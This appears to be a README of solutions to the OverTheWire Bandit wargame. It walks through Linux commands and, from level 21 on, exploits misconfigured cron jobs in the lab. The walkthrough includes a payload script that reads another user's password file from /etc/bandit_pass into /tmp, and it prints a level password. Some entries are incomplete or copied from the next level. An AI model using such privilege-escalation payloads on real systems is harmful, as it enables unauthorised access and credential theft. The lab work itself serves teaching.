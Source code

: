# About
This folder contains structures solutions and reference for the exercises contained on [bandit.overthewire](https://overthewire.org/wargames/bandit/).

Documented answers to the non-trivial questions can be found below, and all the passwords are available in the workspace file, and more detailed solutions can be read in the answers.md file.

## Level 5 - 6
#### Learning outcome: Using find to filter by file type.
Here we are looking for a file with the properties:
- human-readable
- 1033 bytes in size
- not executable

The following command therefore means "search the root directory for anything owned by user bandit7 and group bandit6 that is 33 bytes in size.

```find / ```


## Level 6 - 7
#### Learning outcome: Using find to filter by file type.
Here we are looking for a file with the properties:
- owned by user bandit7
- owned by group bandit6
- 33 bytes in size

The following command therefore means "search the root directory for anything owned by user bandit7 and group bandit6 that is 33 bytes in size.

```find / -user bandit7 -group bandit6 -size 33c```

## Level 8-9
#### Learning outcome: Using sort and uniq.
We are looking for a line that occurs only once. The hinted at `uniq` utility would obviously help this problem. However if you try using it you'll get a whole bunch of lines.

Reading the manual page further reveals that lines are only considered unique if their adjacent lines are different. Therefore for uniq to do what we want it to do, we have to sort the file first.

`sort data.txt | uniq -u`

## Level 10
#### Learning outcome: Text search with grep
Here we need to scan a file for a human readable string beginning with several '=' characters.
`strings data.txt | grep -e ==`

## Level 11-12
#### Learning outcome: String translation with tr mappings
`cat data.txt | tr 'A-Za-z' 'N-ZA-Mn-za-m'`

## Level 12-13
#### Learning outcome: Reverse engineering using file types
`xxd -r`
`gzip -d`
`bzip2 -d`
`tar -x`

## Level 13-14
#### Learning outcome: SSH with private key
`ssh -i file bandit15@bandit.labs.overthewire.org -p 2220`

## Level 15-16
#### Learning outcome: Connecting with SSL
`openssl s_client -connect localhost:30001`

## Level 16-17
#### Learning outcome: Nmap
`nmap localhost -p 31000-32000`

## Level 18-19
`cat ~/readme | ssh bandit18@bandit.labs.overthewire.org -p 2220`

## Level 19-20
`./ cat /etc/bandit_pass/bandit20`

## Level 20-21
Here we need to set up a process to listen on a port of our choosing and return the previous level's password through stdout. This can be done with a backgrounded netcat process with the -l flag:
```
echo "GbKksEFF4yrVs6il55v6gwY5aVje5f0j" | nc -l localhost -p 13337 &
./script 13337
```

# Exploiting scheduled tasks
## Level 21 - 22
Some light reading reveals that cron is a job scheduling utility that reads crontab documents for instructions on when to run tasks. A great tutorial is available [here](https://www.youtube.com/watch?v=QZJ1drMQz1A).

Printing the `cat /etc/cron.d/cronjob_bandit22` reveals that it runs the `/usr/bin/cronjob_bandit22.sh` script every minute of every day of every...(etc) as a background process. Printing this script gives the output:
```
#!/bin/bash
chmod 644 /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
cat /etc/bandit_pass/bandit22 > /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
```
which puts the password for bandit22 into the labelled temp file. Therefore printing the temp file gives us the password.

## Level 22 - 23
Following the same workflow as the previous problem, we see now that the executed script is slightly obfuscated:

```
#!/bin/bash

myname=$(whoami)
mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)

echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"

cat /etc/bandit_pass/$myname > /tmp/$mytarget
```

To reverse engineer it, we run the script in terminal:
`. /usr/bin/cronjob_bandit23.sh`
which produces the following output:
```
Copying passwordfile /etc/bandit_pass/bandit22 to /tmp/8169b67bd894ddbb4412f91573b38db3
```

when run by bandit23 as a cronjob, the phrase "I am user bandit23" is hashed and used as the name of the file that the password is stored in. All we need to do now is get the name of that file by doing 
```
bandit22@bandit:~$ echo I am user bandit23 | md5sum | cut -d ' ' -f 1
8ca319486bfbbc3663ea0fbe81326349
bandit22@bandit:~$ cat /tmp/8ca319486bfbbc3663ea0fbe81326349
```
And we have the password.

## Level 23 - 24
As usual, we find the script to be executed, and it looks like this:

```
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        timeout -s 9 60 ./$i
        rm -f ./$i
    fi
done
```

We're going to set up a bash script and try getting it to run. Let's do all this in /tmp/myworkspace. As usual, take care to create a workspace directory that doesn't already exist (or you could remove it first). Now, we create a `payload.sh` with the following lines:
```
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/dl5215/stealpw
```

Next, we create the following script to deliver our payload to the desired directory:
```
#!/bin/bash
chmod 777 payload.sh                # Gives everyone execute permissions for our payload
touch stealpw                       # Makes the file for us to dump the password
chmod 666 stealpw                   # Gives everyone write permissions for the file
cp payload.sh /var/spool/bandit24/  # Delivers the payload.
```

Once we wait a minute for the payload to be executed by the cron scheduler, we have our password! (check it by continuously `cat`-ing or `find`-ing our payload, since the cron job deletes it after execution).